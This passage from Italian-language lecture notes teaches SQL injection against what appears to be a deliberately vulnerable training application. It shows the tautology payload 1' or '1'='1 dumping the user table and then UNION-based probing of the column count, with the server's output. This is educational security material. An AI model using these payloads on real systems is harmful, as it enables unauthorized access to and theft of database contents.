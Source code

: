 Usando questa query viene stampata l'intera tabella degli utenti:
\begin{lstlisting}
ID: 1' or '1'='1
First name: admin
Surname: admin

ID: 1' or '1'='1
First name: Gordon
Surname: Brown

ID: 1' or '1'='1
First name: Hack
Surname: Me

ID: 1' or '1'='1
First name: Pablo
Surname: Picasso

\end{lstlisting}

Gli argomenti della query sono stati scritti tra apici singoli, stando attenti a bilanciare l'apice singolo iniziale e finale. È possibile semplificare l'iniezione mediante l'utilizzo di caratteri di commento (\#, --).

L'iniezione SQL basata su tautologia presenta diverse limitazioni:
\begin{itemize}
    \item non permette di dedurre la struttura di unq query SQL (campi selezionati e tipo dei campi)
    \item non permette di selezionare altri campi rispetto a quelli presenti nella query SQL
    \item non permette di eseguire comandi SQL arbitrari.
\end{itemize}
L'operatore \texttt{UNION} unisce l'output di più query SQL omogenee. Proviamo ad iniettare un input che trasformi la query SQL in una query UNION. La prima query SQL è quella dello script, la seconda è fornita dall'attaccante. Affinché le query SQL UNION risultato dell'iniezione funzioni, è necessario capire la struttura della tabella selezionata dallo script: numero di colonne e tipi di dato devono combaciare. Immettiamo l'input seguente nel form: \texttt{"User ID":1' UNION select 1\#}. Ciò provoca l'iniezione della nostra query in cascata a quello dello script. La risposta che otteniamo è:
\begin{lstlisting}
The used SELECT statements have a
different number of columns
\end{lstlisting}
Il numero di colonne nelle due query SQL è diverso, quindi la query eseguita dallo script non recupera solo un campo. Immettiamo allora il seguente input:
\texttt{"User ID":1' UNION select 1, 2\#}. Viene stampato l'output delle due query in sequenza:
\begin{lstlisting}
ID: 1' union select 1, 2#
First name: admin
Surname: admin

ID: 1' union select 1, 2#
First name: 1
Surname: 2
\end{lstlisting}


